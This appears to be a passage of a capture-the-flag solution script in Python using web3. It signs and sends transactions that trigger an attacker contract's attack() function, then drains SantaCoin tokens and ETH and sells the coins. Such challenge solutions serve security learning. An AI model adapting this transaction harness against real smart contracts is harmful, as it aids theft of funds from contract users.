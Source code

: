```python
def startAttack():
    nonce = w3.eth.getTransactionCount(account)
    tx = attackerContract.functions.attack().buildTransaction({
        "from": account,
        "nonce": nonce,
        "gasPrice": w3.eth.gas_price,
        "gas": 210000
    })
    signed_tx = w3.eth.account.sign_transaction(tx, privateKey)
    tx_hash = w3.eth.send_raw_transaction(signed_tx.rawTransaction)
    w3.eth.wait_for_transaction_receipt(tx_hash)


def retrieveAllSantaFromContract():
    nonce = w3.eth.getTransactionCount(account)
    tx = attackerContract.functions.transferSanta().buildTransaction({
        "from": account,
        "nonce": nonce,
        "gasPrice": w3.eth.gas_price,
        "gas": 210000
    })
    signed_tx = w3.eth.account.sign_transaction(tx, privateKey)
    tx_hash = w3.eth.send_raw_transaction(signed_tx.rawTransaction)
    w3.eth.wait_for_transaction_receipt(tx_hash)


def retrieveAllEthFromContract():
    nonce = w3.eth.getTransactionCount(account)
    tx = attackerContract.functions.transferEth().buildTransaction({
        "from": account,
        "nonce": nonce,
        "gasPrice": w3.eth.gas_price,
        "gas": 210000
    })
    signed_tx = w3.eth.account.sign_transaction(tx, privateKey)
    tx_hash = w3.eth.send_raw_transaction(signed_tx.rawTransaction)
    w3.eth.wait_for_transaction_receipt(tx_hash)


def sellAllSanta():
    nonce = w3.eth.getTransactionCount(account)
    tx = santaCoinContract.functions.sellCoins(getSantaBalance()).buildTransaction({
        "from": account,
        "gasPrice": w3.eth.gas_price,
        "nonce": nonce,
        "gas": 210000
    })
    signed_tx = w3.eth.account.sign_transaction(tx, privateKey)
    tx_hash = w3.eth.send_raw_transaction(signed_tx.rawTransaction)
    w3.eth.wait_for_transaction_receipt(tx_hash)


def niceListAllowance(amount):
    nonce = w3.eth.getTransactionCount(account)
    tx = santaCoinContract.functions.approve(niceListV2Address, amount).buildTransaction({
        "from": account,
        "gasPrice": w3.eth.gas_price,
        "nonce": nonce,
        "gas": 210000
    })
    signed_tx = w3.eth.account.sign_transaction(tx, privateKey)
    tx_hash = w3.eth.send_raw_transaction(signed_tx.rawTransaction)
    tx_receipt = w3.eth.wait_for_transaction_receipt(tx_hash)
```